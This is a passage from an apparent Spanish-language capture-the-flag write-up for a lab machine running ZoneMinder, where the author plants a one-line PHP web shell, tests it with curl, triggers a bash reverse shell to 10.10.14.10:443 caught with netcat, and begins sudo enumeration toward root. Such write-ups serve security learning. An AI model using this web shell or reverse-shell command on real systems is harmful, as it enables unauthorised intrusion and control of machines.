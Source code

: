 E interesantemente, esta web se ejecuta en PHP como vimos en los archivos de antes, por lo que simplemente colocar una shell nos dará ejecución de comandos... ¡y como otro usuario!

```bash
www-data@surveillance:/usr/share/zoneminder/www$ cat test.php
<?php
  echo system($_GET['uwu']);
?>
www-data@surveillance:/usr/share/zoneminder/www$ curl -v "http://127.0.0.1:8080/test.php?uwu=whoami"
*   Trying 127.0.0.1:8080...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /test.php?uwu=whoami HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Tue, 30 Apr 2024 01:23:25 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
zoneminder
* Connection #0 to host 127.0.0.1 left intact
```

```bash
www-data@surveillance:/usr/share/zoneminder/www$ curl -v "http://127.0.0.1:8080/test.php?uwu=bash%20-c%20'bash%20-i%20>%26/dev/tcp/10.10.14.10/443%20>%261'"
```

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.245 54528
bash: cannot set terminal process group (1090): Inappropriate ioctl for device
bash: no job control in this shell
zoneminder@surveillance:/usr/share/zoneminder/www$ script /dev/null -c bash
... [snip]
```

### root

> Wait, what?
> Yes, seguramente te quedaste extrañado; reitero que esta es la forma no intencionada en la que la resolví
{: .prompt-info }

Este usuario puede hacer cosas interesantes...

```bash
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```
